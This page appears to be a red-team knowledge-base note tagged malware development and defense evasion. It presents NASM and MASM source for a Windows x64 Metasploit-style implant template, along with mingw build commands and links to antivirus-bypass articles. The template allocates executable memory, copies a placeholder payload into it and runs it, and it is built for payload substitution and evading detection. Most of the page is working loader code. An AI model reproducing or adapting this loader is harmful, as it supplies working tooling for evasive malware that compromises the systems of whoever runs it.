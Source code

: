```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - malware-development
  - defense-evasion
---
```

# String Substitution

There is a limitation with this method. It uses a few supported payload formats (refer to the [[Metasploit Implant Templates References|table reference]]).

TODO: Write steps to compile EXE and copy in the templates file destination

## 01 - EXE

### 1.1 - NASM

```nasm
extern ExitProcess
extern VirtualAlloc

section .data
    payload db 'PAYLOAD:', 4096-8 dup (0)

section .text
    global main
    global _start

_start:
    call main
    xor rcx, rcx               ; Exit code 0
    call ExitProcess           ; ExitProcess(0)

main:
    sub rsp, 40                ; Allocate shadow space for function calls (Windows x64 ABI requirement)

    mov r9, 40h                ; PAGE_EXECUTE_READWRITE
    mov r8, 3000h              ; MEM_COMMIT | MEM_RESERVE
    mov rdx, 4096              ; Size of memory allocation
    xor rcx, rcx               ; NULL for lpAddress
    call VirtualAlloc          ; lpPayload = VirtualAlloc(NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)

    mov rcx, 4096              ; Size of payload to copy
    mov rsi, payload           ; Source address
    mov rdi, rax               ; Destination address (lpPayload)
    rep movsb                  ; memcpy(lpPayload, payload, 4096)

    call rax                   ; Execute the payload
```

Compile Windows binaries in Linux

```
$ nasm -f win64 implant.asm -o implant.obj

$ x86_64-w64-mingw32-ld -b pe-x86-64 -e _start -lkernel32 -o implant.exe implant.obj
```

### 1.2 - MASM

```nasm
; Author: Stephen Fewer (stephen_fewer[at]harmonysecurity[dot]com)
; Architecture: x64
;
; Assemble and link with the following command:
; "C:\Program Files\Microsoft Visual Studio 9.0\VC\bin\x86_amd64\ml64" template_x64_windows.asm /link /subsystem:windows /defaultlib:"C:\Program Files\Microsoft SDKs\Windows\v6.0A\Lib\x64\kernel32.lib" /entry:main 

extrn ExitProcess : proc
extrn VirtualAlloc : proc

.code

	main proc
		sub rsp, 40        ; Allocate shadow space for function calls (Windows x64 ABI requirement)
		mov r9, 40h        ; PAGE_EXECUTE_READWRITE
		mov r8, 3000h      ; MEM_COMMIT | MEM_RESERVE
		mov rdx, 4096      ; Size of memory allocation
		xor rcx, rcx       ;
		call VirtualAlloc  ; lpPayload = VirtualAlloc( NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );
		mov rcx, 4096      ;
		mov rsi, payload   ;
		mov rdi, rax       ;
		rep movsb          ; memcpy( lpPayload, payload, 4096 );
		call rax           ; lpPayload();
		xor rcx, rcx       ;
		call ExitProcess   ; ExitProcess( 0 );
	main endp

	payload proc
		A byte 'PAYLOAD:'
		B db 4096-8 dup ( 0 )
	payload endp
end
```

---
## References

### Implants

- [Rapid7: Metasploit Framework PE Templates Source](https://github.com/rapid7/metasploit-framework/tree/master/data/templates/src/pe/exe)

### How to Modify Implant Templates

- [Red Team Notes: AV Bypass with Metasploit Templates and Custom Binaries](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates)

- [Modifying Metasploit x64 template for AV evasion](http://blog.packetheader.net/2015/10/modifying-metasploit-x64-template-for_29.html)

- [Black Hills Information Security: Modifying Metasploit x64 template for AV evasion](https://www.blackhillsinfosec.com/modifying-metasploit-x64-template-for-av-evasion/)
